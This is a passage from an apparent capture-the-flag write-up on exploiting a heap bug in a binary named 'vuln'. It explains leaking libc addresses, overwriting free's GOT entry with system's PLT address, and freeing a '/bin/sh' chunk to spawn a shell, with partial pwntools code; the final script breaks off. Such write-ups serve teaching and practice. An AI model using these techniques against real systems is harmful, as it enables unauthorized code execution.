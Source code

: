 ```python
#we start racing and grab the leaked data
magicNumber = -0x1bde10
ASLR, libc = getPointers()
#get libc base and set address of pwn elf file object to it
libcBase = libc + magicNumber
libcFile.address = libcBase
```

### Getting a shell
To get a shell we can make a call to free call system instead. If we name a horse "/bin/sh" and remove it, system will be called on its name it we should be able to get a shell. The GOT entry for free is at `0x404018`, so we want to allocate a chunk there. However, the addresses has to be aligned by 0x10 bytes for libc not to get mad, so we need to allocate at `0x404010` instead.
<br>
![lets replace free](images/findingGOT.png)
<br>


We can overwrite the GOT entry for free with the PLT entry for system which will have the same end result as using the address to system. A call to free will go like this: 

```Call Free -> Free@plt -> Modified GOT Entry -> System@plt -> System GOT Entry -> System@libc```

The PLT entry for system is located at `0x401090`


#### Locally

Now lets put that information to use! here is the code that will pop a shell

```python
#! /usr/bin/python
import pwn
import time

pwn.context(binary="./vuln")
pwn.context(terminal=["xfce4-terminal", "-e"])
```